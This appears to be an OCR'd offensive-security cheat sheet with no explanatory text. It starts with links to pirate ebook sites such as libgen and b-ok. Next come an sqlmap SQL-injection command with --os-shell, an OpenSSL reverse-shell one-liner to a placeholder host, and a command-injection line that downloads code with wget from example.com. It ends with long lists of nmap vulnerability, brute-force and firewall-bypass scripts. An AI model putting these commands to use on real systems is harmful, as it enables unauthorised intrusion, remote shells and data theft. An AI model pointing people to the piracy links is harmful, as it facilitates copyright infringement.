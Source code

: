 ◾️PDFdrive : https://www.pdfdrive.com 
◾️ b-ok.cc : https://b-ok.cc/
◾️ b-ok2.org :  https://b-ok2.org/
◾️ booksc : https://booksc.xyz/
◾️ AudioBook :  http://audiobookbay.nl
◾️ Library Genesis2M : http://gen.lib.rus.ec
◾️ https://sanet.st/
◾️ https://libgen.me/
◾️ http://bookfi.net/
◾️ https://ebookpdf.com



python sqlmap.py -u
"http://localhost/storefrontB2CWEB/cart.do?action=cart_add&itm_id=1"
-p itm_id --dbms=mssql --level=5 --risk=3
--tamper=between,space2comment -o --random-agent --parse-errors
--os-shell --technique=ES



Reverse SSL shell openssl - @ThemsonMester

gobuster dir -u https://buffered.io -w ~/wordlists/shortlist.txt

mkfifo /tmp/s; /bin/bash -i < /tmp/s 2>&1 | openssl s_client -quiet -connect <HOST>:<PORT> > /tmp/s; rm /tmp/s

===========Linux Command Privilege Escalation Exploit================
uname \"$(bash -c \\\"$(wget http://example.com/file )\\\")\"

nmap -vv -Pn --script http-slowloris-check 
nmap -vv -Pn --script http-iis-short-name-brute
nmap -sV --script=banner --script ssl-enum-ciphers --script http-slowloris-check  --script smb-enum-shares.nse --script ssl-dh-params
nmap -sV -vv -Pn --script ssl-enum-ciphers --script ssl-dh-params --script ssl-poodle --script=sslv2-drown --script ssl-heartbleed --script rsa-vuln-roca
nmap -sV --script=http-php-version 
nmap --script http-webdav-scan -p80,8080 <target>
nmap --script dns-brute --script-args dns-brute.domain=foo.com,dns-brute.threads=6,dns-brute.hostlist=./hostfile.txt,newtargets -sS -p 80
nmap --script dns-brute www.foo.com
nmap -p80 --script http-iis-short-name-brute <target>
nmap -sV --script http-vuln-cve2015-1635 --script-args uri='/anotheruri/' >>Remote Code Execution in HTTP.sys (MS15-034)
nmap -p445 --script smb-vuln-* <target>  
nmap --script=http-waf-fingerprint <targets>
nmap --script=http-waf-fingerprint --script-args http-waf-fingerprint.intensive=1 <targets>
nmap -p80 --script http-waf-detect <host>
nmap --script firewall-bypass <target>
nmap --script firewall-bypass --script-args firewall-bypass.helper="ftp", firewall-bypass.targetport=22 <target>
nmap --script=http-traceroute <targets>
nmap --script http-open-proxy.nse --script-args proxy.url=<url>,proxy.pattern=<pattern>

nmap -sV -PN -p443 --script http-xssed.nse --script http-stored-xss.nse --script http-dombased-xss.nse --script=http-unsafe-output-escaping --script=http-sql-injection --script http-rfi-spider --script http-csrf.nse --script http-security-headers --script http-enum --script http-title --script ssl-ccs-injection --script http-shellshock --script http-cookie-flags.nse --script http-cors.nse --script http-enum.nse --script http-errors.nse --script http-exif-spider.nse --script http-fileupload-exploiter.nse --script http-form-brute.nse --script http-form-fuzzer.nse --script http-frontpage-login.nse --script http-iis-webdav-vuln.nse --script http-internal-ip-disclosure.nse --script http-open-redirect.nse --script http-malware-host.nse --script http-phpself-xss.nse --script http-phpmyadmin-dir-traversal.nse --script http-php-version.nse --script http-robots.txt.nse --script http-server-header.nse --script http-userdir-enum.nse --script http-waf-detect.nse --script http-waf-fingerprint.nse --script http-xssed.nse --script ssl-enum-ciphers.nse --script ssl-heartbleed.nse --script ssl-poodle.nse --script sslv2-drown.nse --script whois-domain.nse --script dns-fuzz.nse --script http-aspnet-debug.nse --script http-auth-finder.nse --script http-auth.nse --script http-backup-finder.nse 
